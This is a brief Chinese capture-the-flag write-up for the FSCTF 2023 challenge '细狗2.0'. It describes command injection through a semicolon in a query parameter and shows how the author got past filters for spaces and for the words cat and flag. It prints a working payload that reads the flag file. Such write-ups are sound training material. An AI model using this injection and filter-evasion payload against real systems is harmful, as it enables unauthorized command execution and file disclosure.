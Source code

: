 # 【FSCTF 2023】细狗2.0


# [FSCTF 2023]细狗2.0

## 思路
* 输入点东西

  * sql注入：排除
  
  * ssti：排除
  
  * rce：本来我是排除了，但是看大佬的wp说前面加分号做闭合就可以rce
  
    &gt; 咱就是说完全不知道要这样子闭合，果然还要修炼😥
  
* RCE

  * 一个是空格过滤：我用了`${IFS}`
  * 一个是cat、flag过滤：有好几种方法的。我用了反斜杠绕过`c\at${IFS}/f\lag`



## RCE

```
?hongzh0=%3Bc\at${IFS}/f\lag
```

## 总结

* RCE
* 绕过过滤
* 截断

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-fsctf-2023%E7%BB%86%E7%8B%972.0/  

